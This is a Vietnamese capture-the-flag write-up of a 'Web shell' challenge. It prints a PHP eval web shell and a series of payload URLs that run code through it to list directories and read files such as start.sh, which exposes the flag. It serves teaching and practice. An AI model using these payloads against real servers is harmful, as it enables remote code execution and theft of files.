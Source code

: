 # Web shell

Address: http://172.104.49.143:1573/

Dùng dirsearch ta tìm được `/shell.php`

Payload nè
```
http://172.104.49.143:1573/shell.php?cmd=echo "hello"; echo "hi";
```

Nhận được

```php
hellohi <?php
    @eval($_REQUEST['cmd']);
    show_source(__FILE__);
?>
```
Code hoạt động với multiple command

Ở đây ta sử dụng lệnh `scandir($dir);` tương tự lệnh `ls` trên bash

Payload tiếp nè
```
http://172.104.49.143:1573/shell.php?cmd=$dir='./'; $files = scandir($dir); print_r($files);
```

```php
Array ( [0] => . [1] => .. [2] => assets [3] => images [4] => index.php [5] => shell.php ) <?php
    @eval($_REQUEST['cmd']);
    show_source(__FILE__);
?>
```

Lùi khoảng 3 lần ta thấy có flag nè
```
http://172.104.49.143:1573/shell.php?cmd=$dir='../../../'; $files = scandir($dir); print_r($files);
```

```php
Array ( [0] => . [1] => .. [2] => .dockerenv [3] => bin [4] => boot [5] => dev [6] => etc [7] => flag [8] => home [9] => lib [10] => lib64 [11] => media [12] => mnt [13] => opt [14] => proc [15] => root [16] => run [17] => sbin [18] => srv [19] => start.sh [20] => sys [21] => tmp [22] => usr [23] => var ) <?php
    @eval($_REQUEST['cmd']);
    show_source(__FILE__);
?>
```
Okie vậy là đã biết địa chỉ của flag
```
http://172.104.49.143:1573/shell.php?cmd=echo readfile('../../../flag'); 
```

```php
<?php
    @eval($_REQUEST['cmd']);
    show_source(__FILE__);
?>
```

Ủa gì z??? Sao k có gì :)?

Nhưng đoạn này k giải thích gì nữa
```
http://172.104.49.143:1573/shell.php?cmd=echo readfile('../../../start.sh'); 
```

```php
#!/bin/sh echo "Flag{bypass_disable_function_php}" > /flag chmod 600 /flag chmod +s /usr/bin/tac /etc/init.d/apache2 restart /usr/bin/tail -f /dev/null152 <?php
    @eval($_REQUEST['cmd']);
    show_source(__FILE__);
?>
```



